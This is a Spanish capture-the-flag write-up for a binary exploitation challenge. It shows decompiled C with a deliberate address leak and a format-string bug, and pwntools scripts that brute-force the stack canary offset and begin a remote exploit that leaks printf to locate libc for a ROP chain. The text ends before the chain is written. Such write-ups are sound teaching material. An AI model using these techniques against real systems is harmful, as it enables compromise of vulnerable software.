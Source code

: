 ```c
  printf("What is this? %p\n",printf);    /* LEAK */
  printf("\nCoffee Time\n$ ");
  fread(input,1,0x50,stdin);    /* FORMAT STRING */
  puts(input);
  
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {    /* Canary check */
    __stack_chk_fail();
  }
  return;
}
```

Vemos que a pesar de la simpleza del programa, disponemos de varios fallos de seguridad que podemos aprovechar.

Si utilizamos el *Format string* para "*leakear*" el valor del *Canary*, podemos utilizar el leak de `printf` para calcular la dirección base de libc y mandar una *ROPchain* en el último *BOF*.

# Explotación

## Sacando el canario

Para filtrar el *Canary* debemos utilizar el *Format string*, concretamente un especificador de formato como `"%n$x"`, e iremos probando con distintas `n` hasta encontrar un valor acabado en `00`. En este caso lo haremos con un script de *python*:

```python
#!/bin/python3
from pwn import *

for i in range(0, 15):
	io = process('./chall')
	io.recvuntil(b"$ ")
	io.sendline(f"%{i}$x")
	print(io.recvline().decode())
```

En este caso, vemos que está en la posición `9`.

## Calculando la dirección base de Libc

A partir de este punto podemos utilizar [*pwntools*](https://github.com/Gallopsled/pwntools) e ir escribiendo un script para facilitar las cosas:

```python
#! /bin/python3
import re
from pwn import *

libc = ELF('libc-2.31.so')

def start():
    if args.REMOTE:
        return remote('35.234.95.200', 31484)
    else:
        return process('./chall_patched')

io = start()

#1er input -> LEAK CANARY - PRINTF
io.recvuntil(b"$ ")
io.sendline(b"%9$lx")
leaks = io.recvline().decode()

```